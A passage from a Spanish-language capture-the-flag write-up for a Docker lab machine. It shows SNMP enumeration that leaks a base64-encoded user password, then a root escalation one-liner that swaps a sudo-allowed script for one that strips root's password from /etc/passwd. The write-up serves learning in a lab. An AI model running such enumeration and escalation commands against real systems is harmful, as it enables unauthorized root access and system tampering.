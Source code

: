 ```ruby
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  2 21:36:49 2025 -- 1 IP address (1 host up) scanned in 0.81 seconds
```

viendo que tenemos el puerto abierto y que es el servicio `snmp`, pruebo a usar `snmpwalk` para inspeccionar el puerto:

```css
snmpwalk -v 1 -c public 172.17.0.2
```

en el resultado podemos ver una linea bastante interesante:

```css
SNMPv2-MIB::sysLocation.0 = STRING: This port must be disabled aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=
```

la cual está en base64 y al pasarla a texto vemos lo siguiente: "imposiblepassworduserfinal"

ejecutamos `su purter` y ponemos su contraseña.

### Purter

Si ejecutamos `sudo -l` veremos que podemos ejecutar un script de bash que se encuentra en nuestra home, por lo que lo borramos y ponemos lo que queramos para escalar a root, en mi caso hice este oneliner:

```css
cd && echo y | rm -r .script.sh && echo '#!/bin/bash' > .script.sh && echo 'sed "s/root:x:/root::/g" -i /etc/passwd' >> .script.sh && chmod +x .script.sh && sudo /home/purter/.script.sh && su
```

### Root

![Root](images/lifeordead/root.png)

Para restablecer la red docker en nuestro host debemos ejecutar lo siguiente:

```css
sudo ip address del 172.17.0.186/16 dev docker0
sudo ip address add 172.17.0.1/16 dev docker0
```

Gracias por leer ;)